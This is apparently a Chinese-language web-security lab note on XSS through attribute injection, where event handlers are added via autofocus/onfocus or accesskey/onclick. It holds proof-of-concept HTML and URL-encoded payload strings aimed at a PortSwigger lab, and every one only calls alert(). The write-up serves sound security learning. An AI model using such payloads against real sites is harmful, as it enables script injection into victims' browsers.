 某些网站会对用户输入中的 `<` 和 `>` 进行编码（转义为 `<` 和 `>`），阻止攻击者插入新标签（如 `<script>`）。但开发者可能忽略对 **标签属性值** 的过滤，允许攻击者在现有标签中注入新属性。

有时候由于标签的特定作用作用，对属性注入的一些事件不会被触发。

### 常规通过注入属性进行 xss

通常情况下就是往标签里添加一些事件，能被渲染到页面上的标签可使用如下方式进行 xss。

- 添加 `autofocus` 属性使其自动获得焦点。
- 绑定事件如 `onfocus`、`onmouseover`。

```
<input type="text" name="csrf" value="123" autofocus onfocus="alert(1)">
```

poc：

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
欢迎，您是第1个登录本站的。再次欢迎！</br>再次欢迎！
<input type="text" name="csrf" value="123" autofocus onfocus="alert(1)">
</body>
</html>

```

![image-20250528110456281](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528110456281.png)

### accesskey 属性

HTML 的 `accesskey` 属性允许为元素定义键盘快捷键。用户按下特定组合键（如 **Alt + key** 或 **Control + Option + key**）时，焦点会跳转到该元素或触发其默认行为。

**攻击思路**：

- 如果攻击者能在标签中注入 `accesskey` 属性，并配合其他事件属性（如 `onclick`、`onfocus`），则可通过用户按下快捷键触发 XSS。
- 即使标签本身不支持自动触发事件（如 `<link>`、`<canonical>`），借助 `accesskey` 的用户交互仍可激活事件。

**示例**：
注入到 `<canonical>` 标签（用于 SEO 的规范链接标签）：

```
<link rel="canonical" href="https://victim.com" accesskey="x" onclick="alert(1)">
```

- 用户按下 `accesskey` 组合键（如 `Alt+X`）时，会触发 `onclick` 事件，执行 XSS。

[隐藏输入字段中的 XSS |PortSwigger 研究](https://portswigger.net/research/xss-in-hidden-input-fields)

```
<html>
<head>
<link rel="canonical" accesskey="X" onclick="alert(1)" />
<link rel="alternate" accesskey="y" onclick="alert(2)" />
<body>

<b>(Press ALT+SHIFT+X on Windows)<br />(CTRL+ALT_X on OS X)</b>

</body>
</html>
```

### 实验

输入 123，将输出到页面 link 标签的 herf 属性

![image-20250528105532428](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528105532428.png)

```
"accesskey="x"onclick=alert(1)
%27accesskey=%27x%27onclick=%27alert(1)

https://0af100ed0356903e83a00a0400090092.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

存在属性注入：

![image-20250528105920605](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528105920605.png)